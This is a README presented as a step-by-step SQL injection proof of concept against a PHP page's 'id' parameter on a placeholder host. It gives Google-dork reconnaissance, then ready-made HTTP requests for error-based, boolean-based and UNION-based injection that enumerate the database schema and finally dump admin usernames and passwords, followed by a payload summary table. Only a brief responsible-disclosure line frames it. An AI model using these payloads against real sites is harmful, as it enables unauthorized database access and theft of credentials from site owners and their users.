 # Basic SQL Injection Proof of Concept

A step-by-step README demonstrating how to discover and exploit a basic SQL injection vulnerability.

---

## Table of Contents

1. [Introduction](#introduction)  
2. [Prerequisites](#prerequisites)  
3. [Reconnaissance](#reconnaissance)  
4. [Identifying the Injection Point](#identifying-the-injection-point)  
5. [Boolean-Based Testing](#boolean-based-testing)  
6. [Determining Number of Columns](#determining-number-of-columns)  
7. [Finding the Reflective Column](#finding-the-reflective-column)  
8. [Extracting Data](#extracting-data)  
9. [Payload Summary](#payload-summary)  
10. [Responsible Disclosure](#responsible-disclosure)  

---

## Introduction

This README walks through discovering a vulnerable `id` parameter on a PHP page, verifying SQL injection, and extracting data via error-based, boolean-based, and UNION-based techniques.

---

## Prerequisites

- Web browser (or `curl`/`httpie`)  
- Intercepting proxy (e.g., Burp Suite)  
- Knowledge of basic SQL syntax  

---

## Reconnaissance

- Enumerate URLs with tools like `subfinder`, `gau`, `waybackurls`.  
- Fallback to Google dork:  

  ```text
  inurl:"?id=" site:target.com
  ```

- Locate URL:  
  `https://www.target.com/gallery.php?id=1`

---

## Identifying the Injection Point

Send a minimal payload to trigger an SQL error:

```http
GET /gallery.php?id=' HTTP/1.1
Host: www.target.com
```

Result:  
```
SQL Syntax Error: You have an error in your SQL syntax...
```

---

## Boolean-Based Testing

Verify true/false conditions:

```http
GET /gallery.php?id=' OR '1'='1'--+ HTTP/1.1
Host: www.target.com
```

All items return (true).

```http
GET /gallery.php?id=' AND '1'='2'--+ HTTP/1.1
Host: www.target.com
```

No items return (false).

---

## Determining Number of Columns

Use `ORDER BY` to discover column count:

```http
GET /gallery.php?id=1 ORDER BY 1--+ HTTP/1.1  # OK
GET /gallery.php?id=1 ORDER BY 2--+ HTTP/1.1  # OK
...
GET /gallery.php?id=1 ORDER BY 6--+ HTTP/1.1  # ERROR
```

Conclusion: original query uses **5 columns**.

---

## Finding the Reflective Column

Inject distinct marker into each column:

```http
GET /gallery.php?id=1 UNION SELECT
  NULL, NULL, 'ABC_INJECTION', NULL, NULL--+ HTTP/1.1
Host: www.target.com
```

Response includes `ABC_INJECTION`, confirming column 3 is reflected.

---

## Extracting Data

1. **Enumerate Databases**  
   ```http
   GET /gallery.php?id=1 UNION SELECT
     NULL, NULL, group_concat(schema_name), NULL, NULL
     FROM information_schema.schemata--+ HTTP/1.1
   Host: www.target.com
   ```
2. **Enumerate Tables**  
   ```http
   GET /gallery.php?id=1 UNION SELECT
     NULL, NULL, group_concat(table_name), NULL, NULL
     FROM information_schema.tables
     WHERE table_schema='target_db'--+ HTTP/1.1
   Host: www.target.com
   ```
3. **Enumerate Columns of a Specific Table**  
   ```http
   GET /gallery.php?id=1 UNION SELECT
     NULL, NULL, group_concat(column_name), NULL, NULL
     FROM information_schema.columns
     WHERE table_name='admin'--+ HTTP/1.1
   Host: www.target.com
   ```
4. **Dump Sensitive Data**  
   ```http
   GET /gallery.php?id=1 UNION SELECT
     NULL, NULL, group_concat(username,0x3a,password), NULL, NULL
     FROM target_db.admin--+ HTTP/1.1
   Host: www.target.com
   ```

---

## Payload Summary

| Step                          | Payload                                                                      |
|-------------------------------|-------------------------------------------------------------------------------|
| Error-Based Test              | `'?`                                                                         |
| Boolean-Based (True)          | `' OR '1'='1'--+`                                                             |
| Boolean-Based (False)         | `' AND '1'='2'--+`                                                            |
| ORDER BY Column Count         | `1 ORDER BY N--+` (increment N until error)                                   |
| UNION SELECT with Marker      | `1 UNION SELECT NULL,NULL,'ABC',NULL,NULL--+`                                 |
| Enumerate Schemas             | `UNION SELECT NULL,NULL,group_concat(schema_name),NULL,NULL--+`               |
| Enumerate Tables              | `UNION SELECT NULL,NULL,group_concat(table_name),NULL,NULL WHERE ...--+`      |
| Enumerate Columns             | `UNION SELECT NULL,NULL,group_concat(column_name),NULL,NULL WHERE ...--+`     |
| Dump Admin Data               | `UNION SELECT NULL,NULL,group_concat(username,0x3a,password),NULL,NULL--+`    |

---

## Responsible Disclosure

After confirming impact, report the vulnerability details to the target’s security team via their Vulnerability Disclosure Program (VDP).

---

